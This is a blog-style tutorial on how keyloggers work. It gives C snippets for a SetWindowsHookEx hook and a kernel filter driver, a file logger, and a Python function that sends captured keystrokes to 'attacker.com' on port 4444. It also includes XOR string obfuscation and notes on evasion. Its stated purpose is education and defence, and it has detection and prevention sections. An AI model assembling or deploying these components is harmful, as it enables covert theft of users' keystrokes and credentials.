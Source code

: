 ```yaml
---

layout: post
title: "Understanding Keylogger Mechanics"
date: 2025-09-28
category: "Malware Analysis"
reading_time: 10
excerpt: "Deep dive into keylogger implementation techniques, from Win32 API hooks to kernel-mode drivers, and how to detect them."
---
```


## Introduction

Keyloggers are one of the most common forms of malware, designed to capture every keystroke a user types. Understanding how they work is essential for both offensive security research and defensive measures.

## Types of Keyloggers

### 1. User-Mode Keyloggers

**SetWindowsHookEx Method**

The most common user-mode approach:

```c
HHOOK hKeyboardHook;

LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
    if (nCode >= 0) {
        if (wParam == WM_KEYDOWN) {
            KBDLLHOOKSTRUCT *kbdStruct = (KBDLLHOOKSTRUCT*)lParam;
            DWORD vkCode = kbdStruct->vkCode;
            
            // Log the key
            LogKeyToFile(vkCode);
        }
    }
    return CallNextHookEx(hKeyboardHook, nCode, wParam, lParam);
}

void InstallHook() {
    hKeyboardHook = SetWindowsHookEx(
        WH_KEYBOARD_LL,
        KeyboardProc,
        GetModuleHandle(NULL),
        0
    );
}
```

**Pros and Cons:**
- ✅ Easy to implement
- ✅ No admin privileges required
- ❌ Easily detectable
- ❌ Can be bypassed by secure input

### 2. Kernel-Mode Keyloggers

More sophisticated approach using keyboard filter drivers:

```c
NTSTATUS DispatchRead(PDEVICE_OBJECT DeviceObject, PIRP Irp) {
    PIO_STACK_LOCATION irpStack;
    PKEYBOARD_INPUT_DATA keyData;
    
    irpStack = IoGetCurrentIrpStackLocation(Irp);
    keyData = (PKEYBOARD_INPUT_DATA)Irp->AssociatedIrp.SystemBuffer;
    
    // Capture keystrokes at kernel level
    LogKeystroke(keyData->MakeCode, keyData->Flags);
    
    return STATUS_SUCCESS;
}
```

**Advantages:**
- ✅ Hard to detect from user-mode
- ✅ Survives process termination
- ❌ Requires admin/system privileges
- ❌ Can cause system instability

## Data Exfiltration Techniques

### File-Based Logging

```c
void LogKeyToFile(DWORD vkCode) {
    FILE *file = fopen("C:\\Windows\\Temp\\log.txt", "a");
    
    char key = MapVirtualKey(vkCode);
    fprintf(file, "%c", key);
    
    fclose(file);
}
```

### Network Exfiltration

```python
import socket
import json

def send_keylog(data):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(('attacker.com', 4444))
    
    payload = json.dumps({
        'timestamp': time.time(),
        'data': data
    })
    
    sock.send(payload.encode())
    sock.close()
```

## Detection Methods

### 1. Process Monitoring

Look for suspicious hook installations:

```python
import psutil

def detect_hooks():
    for proc in psutil.process_iter(['pid', 'name']):
        try:
            # Check for SetWindowsHookEx calls
            # Analyze loaded DLLs
            pass
        except:
            pass
```

### 2. Memory Forensics

Using Volatility framework:

```bash
# Detect keyboard hooks
volatility -f memory.dmp --profile=Win7SP1x64 windows.keyboard

# Analyze driver objects
volatility -f memory.dmp --profile=Win7SP1x64 windows.driverscan
```

### 3. Behavioral Analysis

Monitor for:
- High-frequency file writes
- Unusual network connections
- Registry modifications in `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`

## Prevention Strategies

### For Users
1. Use anti-keylogger software (KeyScrambler)
2. Enable two-factor authentication
3. Use virtual keyboards for sensitive input
4. Regular malware scans

### For Developers
1. Implement secure input methods
2. Use anti-hooking techniques
3. Encrypt sensitive data in memory
4. Validate code signatures

## Advanced Evasion Techniques

Modern keyloggers employ:

**1. Code Obfuscation**
```c
// XOR encryption of strings
char encrypted[] = {0x12, 0x45, 0x67, ...};
char key = 0xAA;

for (int i = 0; i < sizeof(encrypted); i++) {
    encrypted[i] ^= key;
}
```

**2. Polymorphic Code**
- Self-modifying code
- Dynamic API resolution
- Encrypted payloads

**3. Rootkit Integration**
- Hide processes
- Hide files
- Hide registry keys

## Legal and Ethical Considerations

⚠️ **Important**: Developing or deploying keyloggers without authorization is illegal in most jurisdictions. This information is for:
- Security research
- Defensive purposes
- Educational understanding

Always obtain proper authorization and work within legal boundaries.

## Conclusion

Understanding keylogger mechanics is crucial for cybersecurity professionals. While these tools can be used maliciously, knowledge of their operation enables better defense strategies and malware analysis capabilities.

### Detection Tools
- Process Monitor (Sysinternals)
- Wireshark (network monitoring)
- Volatility (memory forensics)
- GMER (rootkit detection)